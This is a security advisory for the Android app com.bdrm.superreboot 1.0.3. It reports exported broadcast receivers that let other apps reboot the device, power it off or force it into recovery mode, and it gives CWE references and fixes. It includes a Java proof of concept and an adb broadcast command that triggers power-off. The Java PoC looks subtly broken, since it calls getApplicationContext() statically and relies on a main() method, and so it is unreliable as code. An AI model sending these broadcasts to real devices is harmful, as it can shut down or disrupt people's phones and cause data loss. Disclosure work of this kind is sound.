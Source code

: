 **Vulnerability Assessment Report**

---

### Summary

The Android application `com.bdrm.superreboot`, version `1.0.3`, exposes several critical actions through its exported broadcast receivers. These exposed actions can potentially allow any app on the device to send unauthorized broadcasts, leading to unintended consequences. The vulnerability is particularly concerning because these actions include system reboot, entering recovery mode, power off, and more.

---

### Details

- **Application**: `com.bdrm.superreboot`
- **Version**: `1.0.3`
- **Vulnerable Component**: Exposed broadcast receivers, particularly `PowerOffWidgetReceiver`
- **Nature of Vulnerability**: Unauthorized broadcast to exported receivers
- **CWE**: CWE-927: Use of Implicit Intent for Sensitive Communication; CWE-925: Improper Verification of Intent by Broadcast Receiver

---

### Proof of Concept (PoC)

**Android Java PoC**:
```java
import android.content.Intent;
import android.content.Context;

public class MaliciousBroadcastSender {

    public static void main(String[] args) {
        triggerExposedAction("POWER_OFF");
    }

    private static void triggerExposedAction(String action) {
        Context context = getApplicationContext();
        Intent intent = new Intent();
        intent.setAction(action);
        context.sendBroadcast(intent);
    }
}
```

**ADB Usage PoC**:
```bash
adb shell am broadcast -a POWER_OFF -n com.bdrm.superreboot/.PowerOffWidgetReceiver
```

---

### Available Actions and Their Potential Impact:

Given the exposed actions, a malicious app can:
- Reboot the device without user consent
- Force the device into recovery, bootloader, or download mode
- Power off the device
- Restart essential system processes
- Boot the device into safe mode

These actions can have significant consequences including unexpected behaviors, data loss, or rendering the device temporarily unusable.

---

### Recommendations

1. Set `android:exported="false"` if there's no need for other apps to send broadcasts to the receivers.
2. Implement permissions using `android:permission` attribute to protect the broadcast receivers.
3. Always verify the sender of the broadcast within the `onReceive()` method.
4. Avoid exposing critical system-level functionalities that can be triggered externally without adequate authorization checks.

---

### References

- [CWE-927: Use of Implicit Intent for Sensitive Communication](https://cwe.mitre.org/data/definitions/927.html)
- [CWE-925: Improper Verification of Intent by Broadcast Receiver](https://cwe.mitre.org/data/definitions/925.html)

---
